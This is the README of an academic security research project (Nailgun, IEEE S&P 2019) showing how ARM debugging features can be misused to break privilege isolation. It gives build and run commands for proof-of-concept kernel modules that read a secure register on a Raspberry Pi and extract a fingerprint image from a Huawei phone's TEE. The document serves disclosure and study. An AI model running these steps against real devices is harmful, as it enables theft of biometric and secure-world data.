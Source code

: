 
# Nailgun: Break the privilege isolation in ARM devices

## Overview
Processors nowadays are consistently equipped with debugging features to facilitate the program debugging and analysis. Specifically, the ARM debugging architecture involves a series of CoreSight components and debug registers to aid the system debugging, but the security of the debugging features is under-examined since it normally requires physical access to use these features in the traditional debugging model.

The idea of Nailgun Attack is to misuse the debugging architecture with the inter-processor debugging model. In the inter-processor debugging model, a processor (debug host) is able to pause and debug another processor (debug target) on the same chip even when the debug target owns a higher privilege. With Nailgun, we are able to obtain sensitive information and achieve arbitrary payload execution in a high-privilege mode.

For more details, please check our website http://compass.cs.wayne.edu/nailgun

## Proof of Concept
We will make two PoCs available on Github:

### PoC #1: Reading  Secure Configuration Register with a kernel module.
#### Platform
- Deivce: Raspberry PI 3 Model B+ 
- Firmware: Raspbian GNU/Linux 9.6 (stretch)

#### Description
In this PoC, we we use a kernel module running in non-secure EL1 to read Secure Configuration Register (SCR), which is only accessiable in secure state, on Raspberry PI. The fold ```PoC/Read_SCR``` contains the source code and prebuild binaries for two kernel modules. The first kernel module _directly_read.ko_ read the SCR directly, which lead to segmentation fault. The kernel module _nailgun.ko_ leverages Nailgun attack to read the SCR

#### Prepare
If you are going to build the kernel module from the source code, you need to install the compile tools and kernel headers with the following command,
```
pi@raspberrypi:~/ $ sudo apt-get install build-essential raspberrypi-kernel-headers
```
Then, get into the source code fold, and compile the kernel module
```
pi@raspberrypi:~/ $ cd PoC/Read_SCR
pi@raspberrypi:~/PoC/Read_SCR $ make
```

#### Run
Use _insmod_ command to install the corresponding kernel module, and use _dmesg_ to check the kernel logs.
```
pi@raspberrypi:~/PoC/Read_SCR $ sudo insmod directly_read.ko
pi@raspberrypi:~/PoC/Read_SCR $ dmesg
pi@raspberrypi:~/PoC/Read_SCR $ sudo insmod nailgun.ko
pi@raspberrypi:~/PoC/Read_SCR $ dmesg
```
The value of the SCR can be found in the kernel log.
  
### PoC #2:  Extracting the fingerprint image.
#### Platform
- Deivce: Huawei Mate 7 (MT-L09)
- Firmware: MT7-L09V100R001C00B121SP05

#### Description
In this PoC, we use a kernel module running in non-secure EL1 to extract the fingerprint image
stored in TEE on Huawei Mate 7. The fold ```PoC/Fingerprint_Extraction``` contains the source code for the kernel module that extracts fingerprint data from TEE, a prebuild binary of the kernel module, and a python script to convert the extracted image data to a PNG file.

#### Prepare
- Make sure you have scanned a fingerprint with the fingerprint sensor.
- Enable USB debugging on your phone and connect it to your PC. (**Nailgun attack doesn't require physical access to the phone, the connection is only used for transferring the binary to the phone and moving the output log to the PC.**)
- Make sure you have root access on your phone.

#### Run
Firstly, push the prebuild binary into the phone
```
adb push nailgun.ko /sdcard/
```
Next, in the _adb shell_ console of the phone, install the kernel module
```
adb shell
shell@hwmt7:/ $ su
root@hwmt7:/ # insmod /sdcard/nailgun.ko
```
Check the kernel log with _dmesg_ command
```
root@hwmt7:/ # dmesg
```
If you can find the fingerprint data similar to this
```
<6>[   51.284149] [0.1, swapper/1] --------------------
<6>[   51.284210] [0.1, swapper/1] 2ef5efac: 412f0100 87796552 e8e2dfd4 eff0eeea
<6>[   51.284240] [0.1, swapper/1] 2ef5efbc: f3f3f3f3 f3f1f8f6 f3f3f2f1 eff4f4f8
<6>[   51.284301] [0.1, swapper/1] 2ef5efcc: f1f0f2f0 f1f0eff3 f1f1efee efeff0ee
<6>[   51.284332] [0.1, swapper/1] 2ef5efdc: e7ecefeb e8e9e8ed e6e4e3e6 e1e5e5e6
<6>[   51.284393] [0.1, swapper/1] 2ef5efec: e9e5e6e4 dfe3e3e6 e4e5e5e2 e0e3e3e3
<6>[   51.284423] [0.1, swapper/1] 2ef5effc: dee1e3e2 e8e6e1df eae8e6e7 eaeceeeb
<6>[   51.284484] [0.1, swapper/1] 2ef5f00c: e5e3e5e5 edebe6e7 edefeff1 f1eeeff0
<6>[   51.284515] [0.1, swapper/1] 2ef5f01c: e7eaebea e9e9e8e5 e6e7eaeb e4e5e4e2
<6>[   51.284576] [0.1, swapper/1] 2ef5f02c: e7e9e8e8 e5e6e7e6 e7eae7ea e2e4e4e5
```
then the PoC works.
Next, dump the kernel log to file, and extract the file from the phone to your PC
```
root@hwmt7:/ # dmesg > /sdcard/nailgun.log
root@hwmt7:/ # exit
shell@hwmt7:/ $ exit
adb pull /sdcard/nailgun.log .
```
Finally, use the python script to convert the fingerprint data to a PNG file
```
python log2image.py nailgun.log
```
You will find a file named _fingerprint.png_ with the extracted fingerprint image.

## Publication
```
@InProceedings{nailgun19,
	Title = {Understanding the security of ARM debugging features},
	Author = {Zhenyu Ning and Fengwei Zhang},
	Booktitle = {Proceedings of the 40th IEEE Symposium on Security and Privacy (S&P'19)},
	Year = {2019}
}
```

## Contact
- Zhenyu Ning
- zhenyu.ning _at_ wayne.edu
- Compass Lab, Wayne State University (http://compass.cs.wayne.edu)
